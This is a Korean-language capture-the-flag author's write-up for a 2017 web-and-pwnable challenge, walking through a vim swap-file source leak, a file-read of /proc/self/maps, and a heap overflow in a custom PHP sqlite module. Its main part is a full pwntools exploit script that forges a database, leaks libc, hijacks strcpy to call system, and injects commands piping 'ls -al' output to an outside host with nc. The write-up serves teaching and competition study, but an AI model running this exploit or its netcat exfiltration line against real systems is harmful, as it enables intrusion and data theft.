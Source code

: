 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
White Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 이진우 ([unknown84](http://unknown84.tistory.com))
* Field  : Web Hacking + Pwnable
* E-Mail : unknown84@naver.com
* Date   : 2017-09-13

## Intention
* 전체적인 컨셉으로는 실제 **PHP 모듈**에서 발생하는 취약점을 기본으로 함.
* 플래그 형식은 **DEMON{...}**

## Solve
* [challenge url](http:// NULL)

### 1. Functions Analyse
> 1. 메인 페이지의 백그라운드 사진이 있는 /test/ 경로에 들어가면 directory listing이 되고 안의 파일을 읽어보면 개발자는 vi를 사용하고 C언어를 좋아한다고 나와있다.
-  test_1.php, test_2.php, test_3.php을 들어가보면 input error가 출력된다.
-  .filename.swp를 통해 접근하면 위 파일들의 소스를 확인할 수 있다.
   ![소스1](https://github.com/unknown84/tmp_img/blob/master/Picture1.png?raw=true)
> 2. read file
- test_2.php에서 원하는 파일을 읽을 수 있다.
  ![소스2](https://github.com/unknown84/tmp_img/blob/master/Picture2.png?raw=true)
- db_backup.php의 코드를 확인하면 bcakup_db_getuserinfo라는 수상한 함수가 있다.
  ![소스3](https://github.com/unknown84/tmp_img/raw/master/Picture3.png)
- test_2.php => /proc/self/maps 를 통해 로드된 모듈을 확인 및 다운로드

> 3. 모듈 분석
- ida로 bcakup_db.so를 분석해보면 링크드리스트로 회원 리스트를 만들고 uid,upw,uinfo 크기별로 malloc해서 할당해준다.
  uid가 같을 경우 upw와 uinfo를 길이값 검증을 하지 않고 복사를 한다.
  ![소스4](https://github.com/unknown84/tmp_img/raw/master/Picture4.png)
  ![소스5](https://github.com/unknown84/tmp_img/raw/master/Picture5.png)
  user
  uid
  upw
  uinfo
  user
  uid
  upw
  uinfo
  위와 같이 메모리를 할당시키고 upw에서 overflow를 발생시켜 user 정보를 덮게 되면 원하는 주소에 값을 쓸 수 있다.
  릭은 /test/test_2.php 에서 /proc/self/maps를 읽으면 된다.
```{.python}
import sqlite3
import os
from pwn import *

flag = False
if os.path.isfile('exp.db'):
	flag = True
con = sqlite3.connect('exp.db')
cursor = con.cursor()

c_q = 'CREATE TABLE hello (uid text, upw text, uinfo text);'
i_q = "INSERT INTO hello(uid,upw,uinfo) values ('%s','%s','%s');"
def create():
	cursor.execute(c_q)
	con.commit()

def make(uid,upw,uinfo):
	print uinfo.encode('hex')
	cursor.execute(i_q % (uid,upw,uinfo))
	con.commit()


if not flag:
	create()

for i in range(520):
	t = '%s%i' % ('A'*28,i)
	make(t,t,t)

t = 'j'*32
k = 'k'*32
k = 'ls -al /|nc cutejinu.xyz 4949  ;'
make(t,t,t)
#make(t*4,t,t)
make(k,k,k)
import urllib2
g = urllib2.urlopen('http://172.16.114.158/test/test_2.php?jfilej=/proc/self/maps').read()
#g = urllib2.urlopen('http://192.168.0.116/test/test_2.php?jfilej=/proc/self/maps').read()
e = ELF('libc-2.23.so')
leak_libc = int(g.split('libc-')[0].split('\n')[-1].split('-')[0],16)
print hex(leak_libc)
st = leak_libc+e.symbols['system']#-0x1000

fakeuid = p64(leak_libc + list(e.search('/bin/sh'))[0])
passsword = p64(int(g.split('bcakup_db')[0].split('\n')[-1].split('-')[0],16)+0x0000000000202020)
print '0x%x 0x%x 0x%x ' % (u64(fakeuid), u64(passsword), st)
# 0000000000202020 off_202020      dq offset strcpy        ; DATA XREF: _strcpyr
dat = 'A'*16 + fakeuid + passsword
dat = dat
print dat
ar = []
for i,tt in enumerate(dat):
	if tt == '\x00':
		ar.append(i)
print ar

make(t,t,t+dat.replace('\x00','A'))
#print (t+dat.replace('\x00','A')).encode('hex')
for tt in ar[::-1]:
	#print (t+dat[:tt].replace('\x00','A')).encode('hex')
	make(t,t,t+dat[:tt].replace('\x00','A'))
make('/bin/sh',p64(st)[:-2],'ls -al|nc cutejinu.xyz 4949;')
make('ls -al|nc cutejinu.xyz 4949;','ls -al|nc cutejinu.xyz 4949;','ls -al|nc cutejinu.xyz 4949;')

con.close()
```

> 4. 위의 코드로 생성된 exp.db를 DB 확인 부분에 업로드하면 / 경로에 있는 파일 리스트를 확인할 수 있다.
>    ![exp6](https://github.com/unknown84/tmp_img/raw/master/Picture6.png)
>    ![exp7](https://github.com/unknown84/tmp_img/raw/master/Picture7.png)

> 5.  Other Exploit
- sqlite로 어찌어찌하는듯
  ~~근데 나는 모르겠다~~

# 끝
